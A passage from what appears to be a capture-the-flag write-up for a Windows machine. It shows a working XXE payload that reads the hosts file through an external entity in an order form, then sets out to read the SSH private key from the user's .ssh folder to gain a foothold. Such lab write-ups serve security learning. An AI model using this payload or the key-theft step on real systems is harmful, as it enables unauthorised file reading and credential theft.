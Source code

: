 - it is working

### Read File
- Now, Let's try to `read a file with it`
- So, I'm gonna insert this command

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/windows/system32/drivers/etc/hosts"> ]>
<order>
    <quantity>
        1
    </quantity>
    <item>
        &example;
    </item>
    <address>
        Bed for sleeping of course
    </address>
</order>
```
 
- the result

![xxe read file](host.png "xxe read file")

- Wow! It works

## Foothold/Gaining Access
- Remember this machine has `SSH open`.
- Let's try to read the `SSH private key`
- Windows SSH key locate here: `C:\Users\USERNAME\.ssh\`
